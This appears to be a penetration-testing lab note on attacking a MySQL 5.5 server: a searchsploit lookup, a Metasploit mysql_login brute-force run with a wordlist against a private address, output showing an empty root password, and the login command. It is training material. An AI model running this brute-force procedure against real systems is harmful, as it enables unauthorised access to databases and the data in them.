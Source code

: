![](.gitbook/assets/image-20230424122710148.png)

- Search for MySQL exploits

```bash
searchsploit MySQL 5.5
# There are only Privilege Escalation exploits
```

- **Brute-force MySQL**

```bash
msfconsole
```

```bash
use auxiliary/scanner/mysql/mysql_login
set RHOSTS 10.2.26.45
set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
run
```

```bash
[+] 10.2.26.45:3306 - 10.2.26.45:3306 - Found remote MySQL version 5.5.20
[!] 10.2.26.45:3306 - No active DB -- Credential data will not be saved!
[+] 10.2.26.45:3306 - 10.2.26.45:3306 - Success: 'root:'
```

> 📌 `root` password is empty

```bash
mysql -u root -p -h 10.2.26.45
```
